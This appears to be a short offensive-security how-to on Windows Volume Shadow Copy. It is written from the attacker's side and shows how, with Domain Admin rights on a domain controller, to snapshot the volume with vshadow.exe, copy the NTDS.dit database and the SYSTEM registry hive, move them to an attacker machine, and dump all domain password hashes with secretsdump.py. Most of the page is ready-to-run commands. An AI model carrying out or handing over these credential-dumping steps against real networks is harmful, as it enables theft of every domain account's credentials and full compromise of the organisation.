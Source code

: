 # Shadow Copy

## What is a Shadow Copy

A [_Shadow Copy_](https://en.wikipedia.org/wiki/Shadow\_Copy), also known as _Volume Shadow Service_ (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

To manage volume shadow copies, the Microsoft signed binary [_vshadow.exe_](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample) is offered as part of the [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/).

When we are Domain Admin, we can create Shadow Copy to extract NTDS.dit database file and recover all domain passwords offline.

## How to do

* Connect on a domain controller as member of domain admin group
* Input the following commands :

```
vshadow.exe -nw -p  C:
```

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

```
reg.exe save hklm\system c:\system.bak
```

* Transfer those files on our pwn box
* Dump credentials using secretsdump.py

<pre><code><strong>secretsdump.py -ntds ntds.dit.bak -system system.bak LOCAL
</strong></code></pre>
